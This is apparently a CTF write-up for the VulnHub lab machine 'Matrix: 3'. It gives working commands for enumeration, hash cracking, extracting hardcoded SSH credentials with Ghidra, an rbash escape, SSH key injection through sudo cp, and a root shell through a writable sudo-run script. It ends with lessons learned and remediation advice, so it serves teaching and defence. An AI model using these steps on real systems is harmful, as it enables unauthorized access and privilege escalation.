





# Matrix: 3 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.104 (host-only) |
| **Difficulty** | Intermediate |
| **OS** | Linux |
| **Root Flag** | (in /root/flag.txt — shown in screenshot) |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/matrix-3,326/) |

## Attack Summary

nmap → dirb → secret.gz (cracked hash admin:passwd) → Basic Auth port 7331 → DOS binary (Ghidra) → SSH as guest → rbash escape → sudo cp SSH key injection → sudo oracle script → root

## Methodology

1. Network and port discovery
2. Web directory brute force and file traversal
3. Hash cracking for Basic Auth credentials
4. Binary reverse engineering (Ghidra) for SSH credentials
5. rbash escape
6. Lateral movement via sudo cp (SSH key injection)
7. Root via writable sudo-run script

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.1.0/24
nmap -p- -A 192.168.1.104
```

Findings: port 80 (HTTP), port 6464 (SSH), port 7331 (HTTP — Basic Auth protected).



---

## Step 2: Web Enumeration — Port 80

```bash
dirb http://192.168.1.104
```

Discovers `/assets`. Browse to `/assets/img/` — finds image `Matrix_can-show-you-the-door.png`.

The filename hints at the path `/Matrix`:
```bash
curl http://192.168.1.104/Matrix/n/e/o/6/4/
# Directory listing — download secret.gz
wget http://192.168.1.104/Matrix/n/e/o/6/4/secret.gz
file secret.gz
cat secret.gz
# It's actually a text file containing a hash
```

Crack the hash using hashkiller or john:
```
hash → password: passwd
```



---

## Step 3: Port 7331 — Authenticated Enumeration

```bash
dirb http://192.168.1.104:7331 / -u admin:passwd
# Finds /data directory containing a file named 'data'
wget --user=admin --password=passwd http://192.168.1.104:7331/data/data
file data
# DOS executable
```

Open `data` in Ghidra (File → Import File → analyze):

Inside the strings or decompiled output, locate hardcoded credentials:
```
guest:7R1n17yN30
```



---

## Step 4: SSH Login + rbash Escape

```bash
ssh guest@192.168.1.104 -p6464
# Restricted shell (rbash)

# Escape with:
ssh guest@192.168.1.104 -p6464 -t "bash --noprofile"
sudo -l
# User guest may run: /bin/cp as trinity
```



---

## Step 5: Lateral Move to trinity (SSH Key Injection via sudo cp)

```bash
# Generate SSH key pair
ssh-keygen -t rsa -b 2048 -f /tmp/key -N ""
chmod 777 /tmp/key.pub

# Overwrite trinity's authorized_keys
sudo -u trinity /bin/cp /tmp/key.pub /home/trinity/.ssh/authorized_keys

# SSH in as trinity
ssh trinity@127.0.0.1 -i /tmp/key -p 6464
sudo -l
# User trinity may run: /home/trinity/oracle as root
```

---

## Step 6: Root via Writable Oracle Script

The oracle binary doesn't exist — create it:

```bash
echo "/bin/sh" > /home/trinity/oracle
chmod 777 /home/trinity/oracle
sudo ./oracle
id
# uid=0(root)
ls /root
cat /root/flag.txt
```



---

## Lessons Learned

1. **Hardcoded credentials in binaries** — reverse engineering DOS/ELF files with Ghidra reveals plaintext creds; use environment variables or secrets management
2. **sudo cp abuse** — write permissions via cp can overwrite `authorized_keys`; restrict sudo to specific paths and destination
3. **sudo with user-controlled scripts** — running a user-writable file as root is trivially exploitable; sudo rules must point to immutable binaries
4. **rbash** is not a security control — easily bypassed with `bash --noprofile` or `ssh -t`

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| Credentials in DOS binary | Use secrets management; never hardcode credentials |
| sudo cp to sensitive paths | Restrict copy destinations in sudoers; use `Cmnd_Alias` with path guards |
| User-controlled sudo script | Ensure sudo-run scripts are root-owned and immutable |
| rbash escape | Use real shell restriction (e.g., `ForceCommand` in sshd_config) |
